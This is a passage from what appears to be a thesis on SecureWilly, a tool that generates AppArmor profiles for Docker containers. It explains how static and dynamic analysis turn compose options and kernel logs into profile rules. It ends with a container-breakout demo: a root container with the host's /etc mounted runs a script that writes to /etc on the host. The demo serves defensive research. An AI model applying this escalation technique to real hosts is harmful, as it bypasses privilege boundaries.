First, a file rule should be added in order to define the permissions on the volume inside the container. If container's volume, has the read-only access mode enabled, then the permission read is added, otherwise both permissions read and write are added. So the first rule is: \\\textbf{\textless container's mountpoint\textgreater{} r} or \textbf{\textless container's mountpoint\textgreater{} rw}.

The rest of the rules, refer to the mount itself. Let it be known that docker forbids mounting volumes on running containers. Mounting volumes is only possible when starting a container. Docker indicates that containers are supposed to be ephemeral so, should the need for mounting a volume on a running container arises,  it is recommended to destroy the container and then recreate it to update the volume. Therefore, the existing mount on a container does not seem to be facing any real dangers, and since our AppArmor profile can only restrict actions that take place after the container is up, it should probably be worthless to add any mount rules.

However,  there has been a lot of talk about if docker should eventually allow mounting on running containers, as many users are making requests to include this feature somehow in future versions.

All things considered, we concluded that the profile owes to be specific about the existing mounted volumes, even if they cannot be affected by new mounts on running container at the moment. Thus, when the static parser encounters the option volumes in yml file, SecureWilly extracts three more rules. One specifying the existing mounting, and two that forbid editing the existing mountpoint on host, either by umounting or by remounting it.
\begin{description}[style=nextline]
\item[mount \textless source host path\textgreater{} -\textgreater{} \textless container's mountpoint\textgreater{}]
This rule allows the specified mounting and no other volumes are allowed to be mounted if there is no rule that allows it.

\item[deny umount \textless container's mountpoint\textgreater{}]
This rule means that this mountpoint cannot be unmounted.

\item[deny remount \textless container's mountpoint\textgreater{}]
This rule means that this mountpoint cannot be remounted.
\end{description}

When the read-only access mode is enabled on container's directory, static parser adds the ro option on the first of the three rules. The profile then is enriched by the following rules:
\begin{description}
\item[mount options=ro \textless source host path\textgreater{} -\textgreater{} \textless container's mountpoint\textgreater{}]
\item[deny umount \textless container's mountpoint\textgreater{}]
\item[deny remount \textless container's mountpoint\textgreater{}]
\end{description}

\subsubsection{Expose}

The expose option is the exact match of the EXPOSE instruction of Dockerfile. It exposes container's ports without publishing them to the host machine, but they will only be accessible to linked services. Only the internal port - container's port - can be specified.

Static parser extracts the exact same rules as in Dockerfile's EXPOSE:
\begin{description}[style=nextline]
\item[network tcp]
This rule is added if tcp is specified for a port or if none protocol is specified, as tcp protocol is used, by default. It allows only tcp networking
\item[network udp]
This rule is added if udp is specified for a port. It allows only udp networking
\item[capability net\_bind\_service]
This rule is added if container's port has port number below 1024. It allows granting capability CAP\_NET\_BIND\_SERVICE.
\end{description}

\subsubsection{Ports}

Ports option is used to publish ports to host. You can either use a short syntax, or give a more detailed configuration. SecureWilly supports only the short syntax, where either both ports are specified (HOST:CONTAINER) or just the container port and an ephemeral host port is chosen by Docker Engine.

If a port binding AppArmor rule existed, then the option ports would make a difference from expose option, but since there is no such rule at the moment, ports option extracts the same rules as expose.

\begin{description}[style=nextline]
\item[network tcp]
This rule is added if tcp is specified for the container's port or if none protocol is specified, as tcp protocol is used, by default. It allows only tcp networking
\item[network udp]
This rule is added if udp is specified for the container's port. It allows only udp networking
\item[capability net\_bind\_service]
This rule is added if container's port has port number below 1024. It allows granting capability CAP\_NET\_BIND\_SERVICE.
\end{description}

\subsubsection{Capabilities add/drop}
Linux processes can be of two types, privileged or unprivileged and so can the docker container's process. As a privileged process, the container can bypass all kernel permission checks, whereas as an unprivileged process, it is subject to full permission checking based on the its credentials (usually: effective UID, effective GID, and supplementary group list).\cite{containercaps} It goes without saying that setting limits to container's privileges is a great advantage for defending isolation.

Linux divides the privileges associated with superuser into distinct units, known as capabilities, which can be independently enabled and disabled. Docker supports adding and dropping capabilities at runtime, so that containers can run with a reduced capability set. By default Docker drops all capabilities except for the following list: CAP\_CHOWN, CAP\_DAC\_OVERRIDE, CAP\_FSETID, CAP\_FOWNER, CAP\_MKNOD, CAP\_NET\_RAW, CAP\_SETGID, CAP\_SETUID, CAP\_SETFCAP, CAP\_SETPCAP, CAP\_KILL, \\CAP\_SYS\_CHROOT, CAP\_NET\_BIND\_SERVICE, CAP\_AUDIT\_WRITE. Every container starts granting this set of capabilities, and it's up to user to drop any of them or add more.

AppArmor profiles can restrict a process's privileges by allowing or denying the capabilities specified. Even if a docker container grants already the default set of capabilities or adds any other at runtime, it cannot use them unless AppArmor profile allows it with a specific rule for each capability. Needless to say that SecureWilly will add only the necessary capabilities that container needs and drop the rest.

There are two options in docker compose file referring to capabilities: cap\_add, which adds capabilities and cap\_drop, which drops capabilities. Static parser detects these options and the capabilities that they specify and extracts an allowing or denying rule respectively:

\begin{description}
\item[capability \textless capability in cap\_add\textgreater{}] or
\item[deny capability \textless capability in cap\_drop\textgreater{}]
\end{description}

When rule capability is used without specific capability (or deny capability), it means that all capabilities that are supported by AppArmor are allowed (or denied). So if static parser encounters option cap\_add: ALL (or cap\_drop: ALL), it extracts rule \textbf{capability} (or \textbf{deny capability}).

\subsubsection{Ulimits}

Limiting processes is important for running a stable system. If host's resources are not appropriately distributed to the running processes, the system's stability might be in danger, as well as the system's security and particularly, isolation. A single user who starts too many processes can make the system unusable for everyone else. For instance, a fork bomb constitutes a denial of service attack in which a process continually replicates itself until available resources are depleted. Evidently, setting limitations to the resources of docker containers' processes is mandatory.

There are two mechanisms that control system's resources: cgroups and ulimits. Control groups (cgroups) is a linux kernel feature that limits or allocates the resources of the controlling hosts (cpu, memory, disk I/O, etc.) to the process groups. The ulimit is a tool for restricting the number of various resources a process can consume. While the main objective of these mechanisms is similar, there are some significant differences between them, such as their target group. In fact, we should say that cgroups are considered for allocating resources among user-defined groups of tasks, while ulimit only works on a process level. Although, cgroups is undoubtedly a very useful feature, restricting resources per container process approaches more the idea of the ulimit tool. Moreover, there are no rules for cgroups yet in AppArmor, so that automatically excludes cgroups.

The ulimit shell command is a wrapper around the setrlimit system call and the underlying data structure which contains the limit information is called rlimit. Ulimit controls the soft and hard limits over the resources available to the shell and to processes started by it. A hard limit is the real upper limit that the user can never exceed. The soft limit, on the other hand, is a “warning” limit. It tells the user and the system admin that you are close to reach the danger level, which is the hard limit. Regular users can increase their soft limits up to the current hard limit, but can’t exceed that. They can decrease their soft limits to zero. Regular users can also decrease their hard limits to zero, but they can’t increase them.

The option ulimits in docker compose file, overrides the default ulimits for a container. You can either specify a single limit as an integer or soft/hard limits as a mapping. At the time of writing, SecureWilly supports only the full syntax which includes soft and hard limits. 

AppArmor rlimit rules control the hard limit of an application and ensure that if the hard limit is lowered that the soft limit does not exceed the hard limit value. If a profile does not have an rlimit rule associated with a given rlimit then the rlimit is left alone and regular access, including changing the limit, is allowed. However if the profile sets an rlimit then the current limit is checked and if greater than the limit specified in the rule it will be changed to the specified limit.

SecureWilly's static parser detects the resource and its hard limit in the yml file and extracts the following rule:
\textbf{set rlimit \textless resource type\textgreater{} \textless = \textless hard limit\textgreater{}}

\subsubsection{Devices}
In Linux, various special files can be found under the directory /dev. These files are called device files. One of the most important things to remember about these device files is that they are most definitely not device drivers. They are more accurately described as portals to the device drivers. Data is passed from an application or the operating system to the device file which then passes it to the device driver which then sends it to the physical device. The reverse data path is also used, from the physical device through the device driver, the device file, and then to an application or another device. \cite{devices}

Although they usually behave unlike ordinary files, they still remane files, as everything in Linux is a file and thus, a mapping between them is treated like a usual a mount. Therefore, we extract the same file rules, like we did in volumes.

The device option in yml file, includes a list of device mappings.

The rules static parser extracts for each mapping are the following:
\begin{description}
\item[\textless container's device path\textgreater{} rw]
\item[mount \textless host's device path\textgreater{} -\textgreater{} \textless container's device path\textgreater{}]
\item[deny umount \textless container's device path\textgreater{}]
\item[deny remount \textless container's device path\textgreater{}]
\end{description}

\subsection{Runtime flags}
Docker Compose is a useful tool which was of great assistance for our static parser. However, it is mostly used for multi-service projects. Users who intend to run one single container, rarely use a Docker Compose file. The options that the yml file includes can all be given as runtime flags at docker run/create command. 

Although yml files worked perfectly in our static analysis, we could not overlook the frequency of this situation, and so SecureWilly asks the user whether a Docker Compose file is used. If the answer is negative, the user is asked to write down all the docker commands with which the container will run. Afterwards, SecureWilly detects all the runtime flags that match the options we used in the searching field for Docker Compose, and creates a mini yml file for each container, containing the values of the runtime flags in the correct syntax. This simple mini yml file is given to static parser, and is treated exactly the same way as a regular yml file and the same rules are extracted for the preliminary AppArmor profile.

The runtime flags that match the Docker Compose options are the following:
\begin{itemize}
\item volumes: -v \textless source host path\textgreater{}:\textless container's mountpoint\textgreater{}
\item expose: --expose \textless port\textgreater{}
\item ports: -p \textless host's port\textgreater{}:\textless container's port\textgreater{}
\item cap\_add: --cap-add \textless capability\textbar ALL\textgreater{}
\item cap\_drop: --cap-drop \textless capability\textbar ALL\textgreater{}
\item ulimits: --ulimit \textless resource type\textgreater{}=\textless soft\textgreater{}:\textless hard\textgreater{}
\item devices: --device \textless host's device path\textgreater{}:\textless container's device path\textgreater{}
\end{itemize}

The rules extracted are already described in the previous section \textit{Docker Compose}. 

\section{Dynamic Analysis}

\subsection{Purpose}
Creating an AppArmor profile by relying only on security, without considering what a service actually needs in order to work, would lead to a worthless profile. The profile SecureWilly produces should forbid any redundant and detrimental action, but above all, it should allow the service to complete its task successfully. In order to create a balanced profile between security and efficiency, SecureWilly runs the service multiple times and adds the appropriate rules that make the profile strict, specific but efficient as well.

In the dynamic analysis phase of SecureWilly, we focus on listening to services' needs, directly. This is achieved by examining the system logs produced when running the containers. We ensure that the profile produced will contain all the rules needed for the container in order to run successfully, by training the project multiple times with a test plan. Each run will produce some rules, which will be adapted to the existing profile. The new rules will give the green light to more actions and subsequently, to new system logs. SecureWilly will repeat the procedure, until there are no new rules extracted from the system logs.
%not stop adding new rules, until there are no new logs produced.

SecureWilly's dynamic analysis is especially invaluable to multi-service projects because it creates profiles that are aware of the association and cooperation of all services of the project. Static analysis extracts rules for the profile of each service separately. On the other hand, dynamic analysis runs the whole project multiple times. Like detailed above, after every run, new rules are added to each profile, and the project runs again with the updated profiles until none of the services produces new rules out of the system logs. Throughout our research, we came to the conclusion that logs are not produced all in once, but by adding some new rules to at least one of the services of a project, will permit actions coming not only by that particular service, but by any service of the project and that will lead to new system logs and thus new rules for all services. That's how the services of a multi-service project cooperate and SecureWilly's dynamic analysis respects that and creates profiles adapted to the cooperation of services.

\subsection{Dynamic Parser}
SecureWilly uses a parser in dynamic analysis which keeps the information given by the user about the services and the test plan, runs the project within a loop and monitors the system logs. At the end of this parser, a directory called parser\_output is created and the final profiles are included in it.

The dynamic parser follows the next steps:
\begin{enumerate}
\item Copy the preliminary profile of static analysis in AppArmor's directory
\item Load the profile in kernel and set the profile to complain mode with aa-complain
\item Execute test plan (start, stop, in-between operations)
\item Monitor the system logs
\item Adjust the profile
\item Repeat from the beginning until there are no new rules extracted from the logs
\item Load the profile in kernel and set the profile to enforce mode with aa-enforce
\item Repeat steps 3,4,5
\item If there are new rules extracted from the logs repeat from the beginning
\item Service's profile is produced
\end{enumerate}

SecureWilly uses a series of scripts to commit all of the actions above. Scripts are generic and as soon as user gives input to the User Interface, they are edited so that they become adjusted to the number and names of the services of each project and include project's test plan.

The steps of dynamic parser are clearly presented in the following flowchart:

\hfill\break\hfill\break\hfill\break\hfill\break\hfill\break

\begin{figure}[hp!]
  \centering
   
\includegraphics[width=0.8\linewidth]{figures/DynamicAlgo.jpeg}
   \caption{Flowchart of dynamic parser}
\end{figure}
Let's take a closer look at the basic steps of dynamic parser.

\subsubsection{AppArmor profiles: load, complain, enforce}
The first operation of dynamic parser is to copy the preliminary profiles produced in static analysis to AppArmor's directory, which is usually located under /etc/apparmor.d/. An AppArmor profile should be loaded in kernel, in order to provide security. Thus, the profiles from static analysis are loaded into the kernel and replace any existing profiles with the same name, using the following command:

\begin{lstlisting}[style=dockercommands]
$ sudo apparmor_parser -r -W /etc/apparmor.d/<service_profile>
\end{lstlisting}

Afterwards, SecureWilly has to set the profile to one of AppArmor's modes. AppArmor profiles can be set to three different modes:

\begin{itemize}
\item In \textbf{audit mode}, security policy is enforced and all access (successes and failures) are logged to the system log. Command aa-audit is used to set an AppArmor profile to this mode.
\item In \textbf{complain mode}, security policy is not enforced but rather access violations are logged to the system log. Command aa-complain is used to set an AppArmor profile to this mode.
\item The \textbf{enforce mode}, is the default mode for a security policy. Command aa-enforce is used to set an AppArmor profile to this mode from being disabled by command aa-disable or from complain mode by command aa-complain.
\end{itemize}

At the beginning of dynamic parser, SecureWilly sets the profiles to complain mode, by executing command:
\begin{lstlisting}[style=dockercommands]
$ sudo aa-complain /etc/apparmor.d/<service_profile>
\end{lstlisting}

The complain mode will provide us with a set of system logs that refer to any action that should be denied, based on the loaded AppArmor profile, but are eventually allowed due to the complain mode.

Considering that the test plan is given as input by the same user who wants to create an AppArmor profile to secure containers' isolation, and not by a malicious user, it becomes evident that all of the actions committed in the test plan should be allowed. Therefore, SecureWilly aims in examining all of the system logs produced and adding every rule that is extracted by the them.

Dynamic parser will wrap these steps into a loop, until there are no new rules extracted from the system logs. This will be determined by the number of rules in each run. When two consecutive runs have the same number of rules in the profile, then there were no new rules extracted, since the new profile is a merged version of the old profile and the new rules of each run. This signals the end of the complain mode, and the following command will be executed to set the profile to enforce mode:

\begin{lstlisting}[style=dockercommands]
$ sudo aa-enforce /etc/apparmor.d/<service_profile>
\end{lstlisting}

The reason why SecureWilly executes the test plan again with the profile set to enforce mode, is to ensure that all services are working properly. If there are any system logs indicating a denied action, then some rule has been missed. In that case, the profile is set again to complain mode and the whole procedure is repeated from the beginning. Otherwise, the final profile is produced and it should be used in enforce mode to secure the container.

The audit mode of AppArmor profiles, was not used eventually. Throughout our research, we tested several profiles and concluded that audit would produce plenty of redundant system logs, as it produces not only logs of denied actions but a set of information about allowed actions, which are useless to our research. Furthermore, audit caused infinite loops to dynamic analysis by creating file rules that were runtime-dependant, as the system logs it produced were referring to temporary instances and files, which on each run were unique. Therefore, the audit mode was excluded from SecureWilly's dynamic analysis since it could not produce a stable and generic profile for our cause.

\subsubsection{Test plan: Run it!}
The system logs that are used to extract rules for the profile, are produced due to the execution of a test plan. The test plan is provided to SecureWilly from the user in User Interface. It will be executed in each run within the loop in dynamic parser and the system logs produced by it will be isolated and divided to files per service.

This test plan should include every command needed in order to complete the basic operations of a project. It should include especially any docker commands used for the project, like creating and running containers, as well as stopping them at the end. Moreover, it should include several commands in-between that are commonly used at the project in order to exercise its functionality.

The test plan is of utmost importance to SecureWilly, because it is the key to create a strict, specific and efficient profile for any service. The more specific and extended is the test plan that the user provides, the more strict and effecient will be the profile. The test plan is actually responsible for making the profile more specific and adjusted to a specific service, because the commands included in it, will indicate the allowed actions, while any other actions will be considered as redundant and will be denied.

The script that is created in UI by the test plan, is edited so that the --security-opt flag with the profile of each run is added to docker run/create commands in order to enable AppArmor security on docker containers. Moreover, if the containers are not already named, the test plan is edited again and the flag --name is added in every docker run/create command, in order to make SecureWilly aware of the containers of the project.

At the end of the test plan, SecureWilly clears all the containers of the project, as well as any network and volumes that were used.

\subsubsection{Monitoring system logs}
The main tool that SecureWilly uses in dynamic analysis is the set of system logs produced on each run of the test plan. Through these logs, dynamic parser extracts the corresponding rules for the AppArmor profile.

First of all, the logs that SecureWilly examines are kernel logs, either provided by dmesg tool or directly presented by /var/log/kern.log. The reason why only kernel logs are examined is because AppArmor is a Linux kernel security module, thus all the logs referring to AppArmor profiles can be found in kernel's messages. Therefore, there is no need to use /var/log/syslog which logs everything, but /var/log/kern.log should be enough as it captures only the kernel's messages of any loglevel. 

The dmesg tool is used to examine or control the kernel ring buffer, which is a subset of /var/log/kern.log, while /var/log/kern.log contains the logs produced by the kernel and handled by syslog. Even though the output may be similar, both sets of logs are examined by SecureWilly.

As soon as the logs are captured, they are divided into different categories depending on the type of AppArmor rule that will be extracted from them.

The types of rules that are not encountered in system logs are mount rules and rlimit rules.  Mounting a volume and setting the ulimits are actions that take place when starting a container, and thus, before the container's profile is active. That's why no kernel logs are produced by them and we can only extract these types of rules in static analysis.

The different types that are encountered in system logs are the following:

\begin{description}[style=nextline]
\item[Capabilities]
One of the most useful types of rules that can be extracted by the logs is capability. A user that is aware of what capabilities the services require may have added them at runtime, so they will already be added in the preliminary profile. However, it is not always clear which capabilities are requested and if user has not added them at runtime, AppArmor will be able to detect them in dynamic analysis.

An example of this type of logs is the following:

\begin{lstlisting}[style=dockercommands]
[501598.576054] type=1400 audit(1551542000.670:3821920781): apparmor="ALLOWED" operation="capable" profile="db_profile" pid=23261 comm="gosu" capability=7  capname="setuid"
\end{lstlisting}

The keywords that are used to classify a log to this category is \say{capability} and \say{capname} and the value of capname is the capability that should be allowed in the extracted rule.

The rule that is extracted is of the following form:

\textbf{capability \textless capname's value\textgreater}

\item[Network]
Network is a rule that is usually added in static analysis. However, through the execution of the test plan in dynamic analysis, networking becomes more specific and the existing rule in the preliminary profile is converted into a more specific network rule.

An example of a network type of logs is the following:
\begin{lstlisting}[style=dockercommands]
[501341.557800] type=1400 audit(1551541743.654:3821881574): apparmor="ALLOWED" operation="create" profile="nextcloud_profile" pid=22189 comm="php" family="inet6" sock_type="dgram" protocol=0
\end{lstlisting}

The search for network type logs uses a set of keywords (create, accept, bind, connect, listen, read, write, sendmsg, recvmsg, getsockname, getpeername, getsockopt, setsockopt, fcntl, ioctl, shutdown, getpeersec) which vary, depending on the operations of a network-relevant action, and should be combined with the keyword \say{family} and \say{sock\_type} in order to classify a log to network category.

The extracted rule is a network rule, defined by the domain - family's value - and type of protocol - sock\_type's value.

Network rule in its full form is defined by three arguments:\\network [domain] [type] [protocol]

However, if the domain and type of the protocol are specified, the network rule is considered to be fully defined. Only if one of these two options is not specified, then the protocol name argument should be given in the rule. As we have seen though throughout our research, logs always specify both domain and type.

Static analysis can extract the network rule, if networking is used, but it can only detect the network's protocol name by the ports exposed or published - tcp or udp. Unfortunately, the rule extracted in static analysis is not as strict as a rule extracted in dynamic analysis. For example, in static analysis the rule extracted for a service corresponding to the log example above, would be \say{network udp}, implying that both inet and inet6 domain types can be used to service's networking. On the other hand, the dynamic analysis, based on the example log, would extract the rule, \say{network inet6 dgram}, which is more specific and allows networking only on inet6 domains. Therefore, if network is used, the test plan should exercise it in its commands, in order to have specific networking rules.

The rule that is extracted from the network logs is of the following form:

\textbf{network \textless family's value\textgreater{} \textless sock\_type's value\textgreater}

\item[Signal]
Signal rule is a type of AppArmor's rules that we have not encountered in static analysis. The reason for this is that signals can only be detected while exercising the service. 

Signal rules have great significance for the termination of a container's process. It is evident that if there is not at least one signal rule in the profile, the container's process will not be able to handle any SIGKILL or SIGTERM signals and this will result in a zombie process, a process that cannot be stopped by the kernel. 
 
An example of this type of logs is the following:

\begin{lstlisting}[style=dockercommands]
[505545.988689] type=1400 audit(1551545948.086:3824158841): apparmor="ALLOWED" operation="signal" profile="cloudsuitemedia-streamingserver_profile" pid=4024 comm="docker-containe" requested_mask="receive" denied_mask="receive" signal=term peer="unconfined"
\end{lstlisting}

The keywords that are used to classify a log to this category is \say{signal}, \say{requested\_mask} and \say{peer}. Signal's value is the signal type AppArmor should allow and the rule can be more specific with signal's operation - requested\_mask's value - and peer's name  - peer's value.

The rule that is extracted is of the following form:\\\textbf{signal (\textless requested\_mask's value\textgreater) set=(\textless signal's value\textgreater) peer=\textless peer's value\textgreater}

\item[File rules]

File rule is the most usual type of AppArmor's rules that is encountered in a profile. SecureWilly managed to reduce the great amount of file rules in profiles, by creating file rules for the volumes in static analysis. 

An example of this type of logs is the following:

\begin{lstlisting}[style=dockercommands]
[491176.182545] type=1400 audit(1551531578.278:3813296368): apparmor="AUDIT" operation="file_perm" profile="cloudsuitemedia-streamingserver_profile" name="/var/lib/docker/aufs/diff/6b1d7ced9a76d8133b8cf2c9be8c772c0773ed1
	 9a38de8e063d749e9d613b2c4/var/log/nginx/access.log" pid=2581 comm="nginx" requested_mask="w" fsuid=33 ouid=33
\end{lstlisting}

The search for file type logs uses a set of keywords (create, open, delete, rename, read, getattr, getxattr, write, append, trunc, setattr, setxattr, chmod, chown, chgrp, link, snapshot, lock, mmap, mprot, exec, change\_profile, onexec, exectime) which vary, depending on the operations of a file-relevant action, and should be combined with the keyword \say{name} and \say{requested\_mask} in order to classify a log to file category. Name's value is the name of the file and requested\_mask's value is the permission required for the file.

The rule that is extracted is of the following form:

\textbf{\textless name's value\textgreater{} \textless requested\_mask\textgreater}

\end{description}

\section{Fixed rules}

Throughout our research, we discovered that there are some rules that docker exclusively requires, in order to run a container, when an AppArmor profile is enforced. Furthermore, there are some rules that we considered essential in order to preserve isolation to a docker project. Therefore, a set of fixed rules was formed and SecureWilly adds them in every profile in static analysis phase. This set of rules is described below:

\begin{description}[style=nextline]
\item[file rule]
The rule \textbf{file}, is used to permit access to filesystems. Docker needs this rule because its filesystem is actually located in host's machine. Docker containers cannot start when an AppArmor profile is enforced, unless this rule is added in the profile. The interesting part of the story is that this rule does not make its appearance in system logs, if a profile works in complain mode. Therefore, if one tries to create a profile for a docker container manually and is not aware of the importance of this rule, there are no indications to help him find out what the mess is about and how to solve the problem.

\item[/var/lib/docker/* r]
This rule is similar to file rule, however it specializes in allowing the docker container to read its filesystem layers which exist in host's machine. This rule is not apparent in system logs when an AppArmor profile works in complain or enforce mode, but several instances of it will be produced only in audit mode. Therefore, its addition is not mandatory for the container in order to work, but we considered it an essential addition to every profile.

\item[deny ptrace(ready, tracedby)]
Another rule that will not be encountered in system logs is the \textbf{deny ptrace(ready, tracedby)} rule. This rule is added in order to protect a docker's project isolation by container breakout attacks, by making it impossible to be traced by other containers. The outcome of this rule is explicitly described in \textit{Chapter 4:Nsenter tool}. In a multi-service project, there are several ways that services can communicate with each other (shared volumes, internal network etc) and this rule will not deny any of them, it will only stop containers outside of the project that want to trace the project's containers.
\end{description}

\section{Summary}
All in all, SecureWilly manages to create AppArmor profiles adjusted to the given project, as soon as user gives the information required in user interface. Static analysis is responsible for creating rules that constitute the profile secure as it adds strict rules about the configuration of the containers, while dynamic analysis enriches the profile with rules that represent the project's requirements and make the preliminary profile of static analysis more strict and efficient.

The first phase of SecureWilly's development focuses mainly on the project. Regardless of the efficiency of the profile that is created in this phase, isolation can still be violated. This led to the second phase of development, which focuses on the isolation-relevant attacks that could be committed from and towards containers and how could SecureWilly prevent them. The next chapter, describes the second phase which completes SecureWilly's development.

\chapter{Attacks and Vulnerabilities}
Among SecureWilly's goals, it is to achieve isolation between host and container, as well as between containers themselves.
Preserving isolation is an important aspect in maintaining docker's security as a whole, because several attacks can be accomplished, if isolation is violated.

We made an extensive research on the attacks that have a potential to happen, if docker containers are not strongly secured. We pointed out a set of vulnerabilities that could lead to several attacks and within the context of ethical hacking, we implemented specific examples of attacks. Through reverse engineering, we managed to create some rules that SecureWilly adds to the AppArmor profiles it produces, in order to assist isolation. 

\section{Attacks}
Below we can see some types of attacks that can happen from within a container \cite{securityattacks}: 

\begin{itemize}
\item Kernel exploits: Unlike a virtual machine, the kernel is shared among all containers and the host. If a container causes a kernel to panic, it will take down the whole host.
MAC cannot take action into this attack because it does not have the ability to restrict syscalls that would cause this reaction to kernel.

\item Denial-of-service-attacks: Containers share kernel resources, so if one container is able to monopolise the access to certain resources, it can starve out other containers on the host. This results in a denial of - service (DoS). Users are then unable to access part or all of the system.
Cgroups is the responsible security feature for resources, that could limit attacker's way up to it. AppArmor profiles do not have rules that involve cgroups...yet (see Chapter 6, section \textit{Future work}).

\item Container breakouts: Be aware of potential privilege escalation attacks, where a user gains elevated privileges through a bug in application code that must run with extra privileges. While unikelly, breakouts are possible and should be considered  when developing a continuity plan.
We looked into this kind of attack closely and we achieved to protect host and containers from breakouts. The following sections describe how these attacks occur and what SecureWilly is doing to prevent them.

\item Poisoned images: If an attacker can trick you into running their image, the host and data are at risk. In addition, make sure that the images that are running are up to date.
There's not much SecureWilly can do about it. We mainly rely on static analysis to prevent attacks, so if we have only a docker image for dynamic analysis, we cannot know if it has bad intentions.

\item Compromising secrets: When a container accesses a database or service it will require a secret, like an API key or username and password. An attacker that gains access to the secret will also have access to the service.
There are several ways that an attacker can eavesdrop other's secrets. SecureWilly can protect us from one way that an attacker could use. That would be through docker inspect. This is explained in an example in section \textit{Access to Docker Daemon}.

\end{itemize}

We will focus on container breakout attacks, as they are the most relevant to container isolation and they can be prevented by AppArmor profiles.

In SecureWilly's development we relied on reverse engineering to extract rules that would defend host from container breakouts and achieve isolation. We implemented several attacks and investigated the least privileges needed in order to commit the attacks. We then used those rules in our static analysis, in order to deny some privileges to the attacker and prevent him from completing the attack.

The following sections, describe the types of the attacks mentioned and shows the solution that our system provides through examples of each attack.

\section{Container Breakouts}
\subsection{Violating Isolation}
Breaking out from the container is definitely a crucial attack to isolation, as the attacker escapes from the given environment and gains access to host or even to other containers.

Getting to host from within a container or gaining access to another container is not always a malicious attack but it is in fact sometimes intended. For instance, when we want to use host's debugging tools in our container, it is usual to get into host's filesystem and use them directly.
However, the approach that our system adopts demands to fight any kind of validating isolation, so if breaking out is intended, either find another way around to avoid breaking out or do not use SecureWilly. SecureWilly will deny any container breakouts, even if it is done intentionally.

\subsection{Vulnerable Features}
In the context of ethical hacking, we made a research on the vulnerable features and weaknesses of docker containers that could lead to a container breakout and created a set of attacking examples, in order to assess the security posture of docker and make SecureWilly aware of the existing threats.
There are several tools, commands and tricks to escape docker container. Below we can see a subset of them \cite{onentryattacks}: 

\begin{enumerate}
\item Running as root
\item Kernel Capabilities
\item Disabling Namespaces
\item Nsenter tool
\item Access to Docker Daemon
\end{enumerate}

In the next sections, we discuss each of them in depth.

\section{Running as root}
\subsection{Container's process on host}
First of all, let it be clear that a process running in a container is the same as a process running on host. What makes it different is a small piece of metadata that declares that it's in a container. \cite{runningroot}

Containers are not trust boundaries, so therefore, anything running in a container should be treated with the same consideration, as anything running on the host itself.
If running as root on your server is not a best practice, for the same reasons you shouldn't run anything as root in a container on your server.
\subsection{Why root?}
There are limited reasons that root is actually needed in a system. Some of them would be the following:
\begin{itemize}
\item Modifying the host: This is by default not required, since application containers are not meant to modify kernel's host. 

\item For a start: A lot of processes start as root and then drop privileges as quickly as possible. A common example of this situation is binding to ports below 1024. Web services for instance, most often use port 80 for web servers to listen. This means containers start as root and bind to host 80 and then become non-root. However, this does not constitute a problem, as port forwarding exists to solve this by binding container to any network port and map this port to the host's port \textless 1024 needed, at runtime either with -p flag at docker run or inside docker-compose.

\item Installing software into a container image: Most of the software packages expect to be installed by users who have root privileges in order to make necessary actions (manipulate the /etc/passwd file by adding users, put down content on the file system with different UID/GIDs etc). At the moment, the only existing solution to this, is to install packages at the build phase through Dockerfile. Again, we need to have root privileges at the beginning but after the installation command we can drop privileges and become non-root user by using USER command, before our container is up.
A suggested approach for Docker in the future, would be to separate the build systems from the installing systems. 
\end{itemize}

In general, even if we are facing one of the situations above, there are suggestions to work around with and not use root inside a container. Using root is definitely discouraged and even Docker docs recommend to use USER command in Dockerfile as a best practice.\cite{dockerbestpractices} 

\subsection{Container's root vs Host's root}
Is container's root the same as host's root?
If User Namespaces are not enabled, the answer is yes.

Let's start a simple container running as root, executing the top command:

\begin{lstlisting}[style=dockercommands]
$ docker run --rm -it ubuntu:latest top
\end{lstlisting}

On host, run the following command to list all the processes with keyword top:
\begin{lstlisting}[style=terminal, basicstyle={\fontsize{10}{11}\color{black}\ttfamily}]
$ ps -ef | grep top
ubuntu    5761  5760  0 18:51 pts/0    00:00:00 docker run --rm -it ubuntu:latest %top%
root      5802  5786  0 18:51 pts/4    00:00:00 %top%
ubuntu    5834  5714  0 18:52 pts/3    00:00:00 grep --color=auto %top%
\end{lstlisting}

As you can see from the output, the user that runs top is root. This is the exact same root as host's, even though it is the container's process which runs top.

\subsection{What can an attacker do with root user?}
Attackers who run as root in a container can make use of root's ability to commit privileged actions, in order to attack host. 

A very simple example to attack host by running a container as root is the following: 

Suppose a user in host who does not have root privileges. A standard user - who does not belong is sudoers group - does not have write access to /etc/ directory, as you can see below:

\begin{lstlisting}[style=terminal]
$ touch /etc/hello
touch: cannot touch '/etc/hello': Permission denied
\end{lstlisting}

Now, let's start a container running as root which will repeat the same action. The Dockerfile to build the image of this container is given below:

\begin{lstlisting}[style=Dockerfile, caption={Dockerfile used for root\_attack image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>
#Copy the attacking script into the container
COPY 3_attack.sh .
ENTRYPOINT /bin/bash
\end{lstlisting}

In order to make the attack work, host's directory /etc has to be mounted to the container. The attacker runs the following commands to start the container:

\begin{lstlisting}[style=terminal]
$ docker build . -t root_attack
$ docker run --rm -it -v /etc:/etc root_attack
\end{lstlisting}

As seen in the Dockerfile, the attacker copies his attacking script inside the container. So when the container is up he just has to execute the following script:

\begin{lstlisting}[style=shellscript, caption={3\_attack.sh}]
#!/bin/sh

echo "====== touch /etc/HelloFromTheOtherSide ======"
touch /etc/HelloFromTheOtherSide
\end{lstlisting}

The container now can be stopped and we may see the attack's results by listing contents of directory /etc on host:

\begin{lstlisting}[style=terminal]
$ ls -l /etc | grep Hello
-rw-r--r-- 1 root root       0 Jan 26 19:04 %Hello%FromTheOtherSide
\end{lstlisting}

The owner of the new file is root, even though the container was run by a standard, non-root user who did not have the permission to create a file in /etc directory.
